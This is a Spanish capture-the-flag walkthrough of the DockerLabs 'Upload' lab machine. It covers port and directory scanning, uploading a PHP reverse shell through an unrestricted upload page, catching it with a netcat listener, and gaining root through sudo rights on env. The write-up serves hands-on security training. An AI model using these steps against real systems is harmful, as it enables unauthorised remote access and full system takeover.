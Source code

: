 ```yaml
---
title: Upload - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/d1ec25fb-346f-46b3-bc31-5e03ce16cc27)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/04499ee1-0ea5-4ead-ab90-2bbf6b71f938)

# Exploración Web
En el puerto `80` encontramos una pagina de subida de archivos.

![image](https://github.com/user-attachments/assets/e889ff38-5f0c-4390-9507-ba3a3804866d)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/7c400ad1-d895-4407-9e79-33f7b4332f76)

Vemos que existe la ruta uploads , donde se guardaran todos los archivos que se generen , vamos a probar a subir una revershell de php.

# Reverse Shell

En el panel de Uplodas, generamos un `shell.php`.

![image](https://github.com/user-attachments/assets/44a497dd-9578-4bb6-a2f8-bfc388de8db7)

Aprovechamos la sección de subida de archivos para cargar una reverseshell en PHP. ara esto, generamos una reverseshell desde **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

No salta un mensaje de que se ha subido el archivo accedmos a la ruta /uploads y lo ejecutamos 

![image](https://github.com/user-attachments/assets/168111df-59fd-4757-9416-3b8aa36be241)

Simultaneamente iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:

```bash 
nc -lvnp 4444
```

Accedemos a la reverse shell a través del navegador:

![image](https://github.com/user-attachments/assets/ba14667e-c769-4e9c-9e3c-8ba8c46fbf3d)

Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/bd2e0d5a-7d78-4bb0-bd2e-a394ef9d8dba)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de privilegios

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `env` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/9d9a1dee-9684-4afe-8d51-b0f08de7a6d2)


Ejecutamos el siguiente comando para tener una consola como root.

```bash
sudo /usr/bin/env /bin/sh
```

Ya somos root.

![image](https://github.com/user-attachments/assets/d5651dbb-e173-4129-8b03-f72d83dee169)


